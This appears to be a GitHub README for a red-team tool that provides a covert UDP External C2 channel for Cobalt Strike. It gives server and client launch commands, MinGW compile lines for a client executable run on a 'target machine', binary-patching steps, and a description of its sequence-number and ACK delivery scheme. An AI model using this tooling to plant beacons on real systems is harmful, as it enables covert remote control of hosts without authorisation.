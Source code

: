 # COBALT STRIKE ROBUST UDP CHANNEL

This project provides a UDP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any UDP-based protocol.

This channel guarantees in-order delivery. It does this through sequence numbers and generic ACK packets. Full description is below the guide.

This channel also assumes the network uses IPv4. TCP allows for protocol-agnostic sockets, but UDP does not. Changing the socket to IPv6 currently requires editing the code.

To use the Robust UDP channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

Requirements: Python3 (developed on 3.9.2) and wolfssl

> pip3 install wolfssl

To start the server, run the following command:

> python3 server.py [Teamserver IP] [Python Server IP] [Port] [Pipename] [Timeout] [Retries] [OPTIONAL:-tp TeamserverPort -a Arch -r Restart]

- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server communicates with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any opsec appropriate pipe name approved for ops.
- [Timeout] is the number of seconds to set the socket timeout to.
- [Retries] is the number of times to retry listening for a connection after a timeout occurs.
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.  
- [Arch] is the architecture to request from the teamserver for the beacon. It defaults to x86 and is an optional argument.
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N and is an optional argument.

If you have the MinGW compiler installed, you may compile the client.c code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32

or 64-bit with:

>x86_64-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe

Use the binary patcher to patch in arguments.

>python3 bipa.py [input binary] [output binary] -a [Python Server IP] -b [Port] -c [Pipename] -d [Sleep] -e [Timeout] -f [Retries]

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server.
- [Timeout] is the number of seconds to set the socket timeout to.
- [Retries] is the number of times to retry listening for a connection after a timeout occurs.

## GUARANTEED DELIVERY DESCRIPTION

This channel uses generic ACK packets and packet sequence numbers to provide reliable data transmission over UDP.

Every packet (except for ACKs) starts with a 4-byte sequence number. In the current implementation, this number starts at 0 and increments by 1 for every successful receipt. The recipient of a packet first checks the sequence number. If it’s equal to the expected sequence number, the recipient sends a generic ACK, takes in the data, and increments the expected sequence number by 1. If the sequence number received is less than the expected sequence number, the recipient sends an ACK but doesn’t do anything else. If the sequence number received is greater than the expected sequence number, the recipient does nothing. (This is undefined behavior; the program should never reach this point.) The ACK message just consists of the word “ACK”. It does not contain an acknowledgement number.

When transmitting data, the sender sends packets one at a time. After every transmission, the sender waits until a specified timeout for an ACK packet. If no ACK is received, the sender retransmits the packet. Once the sender receives an ACK packet, they will increment their sequence number by 1 and transmit any more data if necessary.

The packet max size is defined in the code. It is currently 1024 bytes. Senders repeatedly transmit packets of that size or less until all of their data is sent. (Note: this max size does not include the sequence number, so the actual packet sent will have a payload of 1028 bytes.)

The timeout is defined by the operator. It is recommended that the client timeout be twice as long as the server timeout due to the server forwarding data to the teamserver and back.

## CONSTRAINTS

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- If the server goes down, due to trying to maintain reliability through packet drop, the client will continue sending packet retransmissions to the dead IP address until the retries counter is hit.
- The sequence numbers do not roll over, so 2^32 packets is the maximum that can be sent by either the client or the server.

## TODOS/IMPROVEMENTS

- UDP does not allow for protocol-agnostic sockets. A choice between IPv4 and IPv6 should be added as an argument passed to both programs.
- A more efficient solution than "ack every packet" should be developed. One idea I had was to have the recipient ACK a size packet, then allocate an array to keep track of the packets received for that payload. The recipient only sends an ACK once they receive all the data, and the sender retransmits everything if they don't receive an ACK.
- Allow the user to control the packet size via commmand line arguments.
- Start the sequence number on a randomly generated value. (Both the client and the server are configured to handle receiving an arbitrary sequence number, but they don't send randomized ones as of yet.)
- Roll over the sequence number once it reaches its max.
- Packets from the server to the client calculate the checksum incorrectly according to Wireshark. Possibly UDP Checksum Offloading.
- When capturing the entire connection, Wireshark identifies the traffic as QUIC protocol. Unknown why this is.
